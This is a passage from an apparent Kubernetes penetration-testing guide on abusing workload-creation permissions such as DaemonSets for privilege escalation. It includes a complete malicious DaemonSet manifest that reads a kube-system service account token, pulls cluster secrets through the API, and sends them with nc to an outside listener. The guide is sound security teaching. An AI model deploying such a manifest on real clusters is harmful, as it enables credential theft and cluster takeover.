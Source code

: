 Deployment, Daemonsets, Statefulsets, Replicationcontrollers, Replicasets, Jobs and Cronjobs are all privileges that allow the creation of different tasks in the cluster. Moreover, it's possible can use all of them to **develop pods and even create pods**. So it's possible to a**buse them to escalate privileges just like in the previous example.**

Suppose we have the **permission to create a Daemonset** and we create the following YAML file. This YAML file is configured to do the same steps we mentioned in the “create pods” section.

```yaml
apiVersion: apps/v1
kind: DaemonSet
metadata:
  name: alpine
  namespace: kube-system
spec:
  selector:
    matchLabels:
      name: alpine
  template:
    metadata:
      labels:
        name: alpine
    spec:
      serviceAccountName: bootstrap-signer
      automountServiceAccountToken: true
      hostNetwork: true
      containers:
      - name: alpine
        image: alpine
        command: ["/bin/sh"]
        args: ["-c", 'apk update && apk add curl --no-cache; cat /run/secrets/kubernetes.io/serviceaccount/token | { read TOKEN; curl -k -v -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" https://192.168.154.228:8443/api/v1/namespaces/kube-system/secrets; } | nc -nv 192.168.154.228 6666; sleep 100000']
```

In line 6 you can find the object “spec” and children objects such as “**template**” in line 10. These objects hold the configuration for the task we wish to accomplish. Another thing to notice is the "**serviceAccountName**" in line 15 and the “**containers**” object in line 18. This is the part that relates to creating our malicious container.

Kubernetes API documentation indicates that the “**PodTemplateSpec**” endpoint has the option to create containers. And, as you can see: **deployment,** **daemonsets, statefulsets, replicationcontrollers, replicasets, jobs and cronjobs can all be used to create pods**:

![](https://www.cyberark.com/wp-content/uploads/2019/08/Kube-Pentest-Fig-8.png)

**So, the privilege to create or update tasks can also be abused for privilege escalation in the cluster.**

### **Pods Exec**

**Pod exec** is an option in kubernetes used for **running commands in a shell inside a pod**. This privilege is meant for administrators who want to **access containers and run commands**. It’s just like creating a SSH session for the container.
